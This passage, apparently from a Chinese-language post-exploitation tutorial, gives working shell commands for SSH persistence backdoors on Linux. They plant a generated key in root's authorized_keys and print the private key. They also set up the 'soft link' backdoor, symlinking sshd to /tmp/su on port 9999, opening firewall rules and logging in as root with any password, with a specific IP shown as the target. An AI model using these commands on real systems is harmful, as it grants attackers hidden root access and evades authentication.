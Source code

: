 ```plain
echo "AuthorizedKeysFile .ssh/authorized_keys" >> /etc/ssh/sshd_config || true

# 生成 SSH 密钥对（自动回车）
yes "" | ssh-keygen -t rsa || true
​
# 创建.ssh 目录（如果不存在）
mkdir -p /root/.ssh || true

# 在.ssh 目录中创建并编辑 authorized_keys 文件，添加公钥
touch /root/.ssh/authorized_keys || true
cat ~/.ssh/id_rsa.pub >> /root/.ssh/authorized_keys || true   #这里可以导入本机的密钥

# 打印生成的 id_rsa 文件内容
echo "生成的 id_rsa 文件内容："
cat ~/.ssh/id_rsa || true

echo "配置完成。"
```

  

```plain
ssh -i id_rsa user@192.168.6.152
```

## 0x02 SSH 软链接

3.1.1. 查看是否开启 pam 身份验证

这里如果是 no 可以去这个配置文件中直接去修改，不过需要是 root 权限哦。

```plain
cat /etc/ssh/sshd_config|grep UsePAM
```

3.1.2. 建立软连接

这里建立软连接后，需要将防火墙的端口开放，如果防火墙是关闭的就无所谓了。

```plain
ln -sf /usr/sbin/sshd /tmp/su ;/tmp/su -oPort=9999
#开启软链接，链接端口为 9999

firewall-cmd --add-port=9999/tcp --permanent
#开启防火墙规则，不然会连接不上

firewall-cmd --reload
#重启防火墙服务

firewall-cmd --query-port=9999/tcp
#查看防火墙 9999 端口是否被放行，回显为 YES 即成功放行

iptables -A INPUT -p tcp --dport 9999 -j ACCEPT

```

3.1.3. 测试

这里后面的 9999 是端口，进去随便输入一些密码就可以登录进去了。

```plain
##-p 后面这个是端口
ssh root@183.214.5.153  -p 9999
```
